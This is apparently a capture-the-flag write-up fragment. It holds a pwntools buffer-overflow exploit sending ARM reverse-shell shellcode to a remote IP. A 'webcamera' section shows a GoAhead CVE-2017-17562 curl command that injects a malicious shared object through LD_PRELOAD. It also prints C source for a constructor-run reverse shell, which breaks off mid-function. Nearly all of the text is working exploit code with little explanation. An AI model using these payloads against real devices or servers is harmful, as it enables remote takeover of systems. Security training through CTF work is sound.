 ```
from pwn import *

context.log_level = 'debug'
import socket

p = remote("20.21.2.27", 5000)


shellcode = "\x02\x00\xa0\xe3\x01\x10\xa0\xe3\x02\x20\x42\xe0\xc8\x70\xa0\xe3\x51\x70\x87\xe2\x00\x00\x00\xef\x00\x40\xa0\xe1\x64\x10\x8f\xe2\x01\x20\xc1\xe5\x10\x20\xa0\xe3\x02\x70\x87\xe2\x00\x00\x00\xef\x3f\x70\xa0\xe3\x04\x00\xa0\xe1\x01\x10\x41\xe0\x00\x00\x00\xef\x04\x00\xa0\xe1\x01\x10\xa0\xe3\x00\x00\x00\xef\x04\x00\xa0\xe1\x02\x10\xa0\xe3\x00\x00\x00\xef\x30\x00\x8f\xe2\x02\x20\x42\xe0\x00\x10\xa0\xe1\x05\x10\x81\xe2\x00\x60\xa0\xe1\x80\x60\x86\xe2\x00\x10\x86\xe5\x04\x20\x86\xe5\x06\x10\xa0\xe1\x07\x20\xc0\xe5\x0b\x70\xa0\xe3\x00\x00\x00\xef\x02\xff\x11\x5c\x14\x15\x02\x1a\x2f\x62\x69\x6e\x2f\x73\x68\x00"

sc = shellcode

payload = "POST \r\n\r\nname=root&a="
payload = payload + cyclic(788) + p32(0x000224F8 + 0x330)
payload = payload.ljust(0x330, '\x00')
payload = payload + sc
p.send(payload)


p.interactive()

```


![](https://hackmd.summershrimp.com/uploads/upload_42d69f88a4cb49a073cc45142f1b24b1.png)

## webcamera
goahead 2.5.0 CVE-2017-17562
https://www.jianshu.com/p/4e803d6f19a3
https://xz.aliyun.com/t/6407

```shell
 curl "http://192.168.8.108/cgi-bin/upload_conf.cgi?LD_PRELOAD=/proc/self/fd/0" \
 -X POST --data-binary @evil_final.so -i
 ```
 
 
 
eval.so  
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>

char *server_ip = "127.000.000.001";
uint32_t server_port = 7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
    //socket initialize
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    //connect to the server
    if (connect(sock, (struct sockaddr *)&attacker_addr, sizeof(attacker_addr)) != 0)
```
